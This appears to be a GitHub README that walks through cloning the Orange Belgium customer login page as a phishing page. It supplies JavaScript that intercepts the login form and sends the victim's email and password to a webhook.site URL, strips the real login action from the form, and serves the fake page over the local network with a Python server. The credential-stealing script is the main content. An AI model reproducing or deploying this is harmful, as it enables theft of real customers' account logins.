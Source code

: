 # Simulate the Orange Customer Connexion Webpage

## 1) Get the source code of the page

- Go to : https://www.orange.be/fr/e-services/login
- ctrl + s or right click and "save as"

## 2) Get a webhook

- Go to : webhook.site
- Copy the url (you gonna need it soon)

## 3) Write a script to return info to webhook

- open a new JS file here ´data.JS´
- write this script (and use the url of the webhook)

>  let myForm = document.getElementById('sso-form');  // "let name" create a variable and then we put in it the content of an id. Here id of the form
>  let formEmail = document.getElementById('sso-email'); // id of the mail input
>  let formPassword = document.getElementById('sso-password');// id of the password input
>  
>  myForm.addEventListener('submit', (e) => { // we wait for specific moment to run, here it's the submit button
>    e.preventDefault();
>   fetch('https://webhook.site/ccbd4eb0-f4b0-48c0-96da-4a96ab73004c', { //when it's in action the script fetch the data and return it to the web hook url
>       method: "POST",
>        body: JSON.stringify({ //this line transform the data we collect (who's in json format) and transform it into strings
>            username: formEmail.value, //here we say to stock those string into the variable we have creat on the top
>            password: formPassword.value
>        })
>    }).then(window.location.href = "https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley"); // after all of this the user is redirected to this URL
>  })

## 4) Make some change on the HTML 

- remove this part from sso-form :
>  action="https://sso.orange.be/auth/sm/login.fcc" data-soho-check="/e-services/userCheck/b2b" data-soho-target="https://e-services.business.orange.be/fr/espace-client-soho/?fromB2C=true">

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**Normaly it should work localy**

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


## Make a local server to host it

- Dont forget to rename your webpage into index.html
- on your folder open the terminal and write this command to launch a python server `py -m http.server` (the default port is 8000)
- You can acces your webpage with localhost:8000
- Other person on the same network can have acces to id with yourIP:8000


**Eazy Peazy Lemon Squezzy**